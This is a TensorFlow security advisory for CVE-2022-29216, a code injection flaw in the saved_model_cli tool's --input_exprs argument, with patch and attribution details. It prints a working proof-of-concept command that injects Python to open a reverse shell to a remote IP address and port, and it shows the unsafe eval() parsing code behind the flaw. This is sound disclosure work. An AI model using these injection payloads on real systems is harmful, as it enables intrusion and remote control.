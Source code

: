 ## TFSA-2022-060: Code injection in `saved_model_cli`

### CVE Number
CVE-2022-29216

### Impact
TensorFlow's `saved_model_cli` tool is vulnerable to a code injection:

```
saved_model_cli run --input_exprs 'x=print("malicious code to run")' --dir ./
--tag_set serve --signature_def serving_default
```

This can be used to open a reverse shell

```
saved_model_cli run --input_exprs 'hello=exec("""\nimport socket\nimport
subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")'
--dir ./ --tag_set serve --signature_def serving_default
```

This is because [the fix](https://github.com/tensorflow/tensorflow/commit/8b202f08d52e8206af2bdb2112a62fafbc546ec7) for [CVE-2021-41228](https://nvd.nist.gov/vuln/detail/CVE-2021-41228) was incomplete. Under [certain code paths](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/python/tools/saved_model_cli.py#L566-L574) it still allows unsafe execution:

```python
def preprocess_input_exprs_arg_string(input_exprs_str, safe=True):
  # ...

  for input_raw in filter(bool, input_exprs_str.split(';')):
    # ...
    if safe:
      # ...
    else:
      # ast.literal_eval does not work with numpy expressions
      input_dict[input_key] = eval(expr)  # pylint: disable=eval-used
  return input_dict
```

This code path was maintained for compatibility reasons as we had several test cases where numpy expressions were used as arguments.

However, given that the tool is always run manually, the impact of this is still not severe. We have now removed the `safe=False` argument, so all parsing is done withough calling `eval`.

### Patches
We have patched the issue in GitHub commit [c5da7af048611aa29e9382371f0aed5018516cac](https://github.com/tensorflow/tensorflow/commit/c5da7af048611aa29e9382371f0aed5018516cac).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Andey Robins from the Cybersecurity Education and Research Lab in the Department of Computer Science at the University of Wyoming.
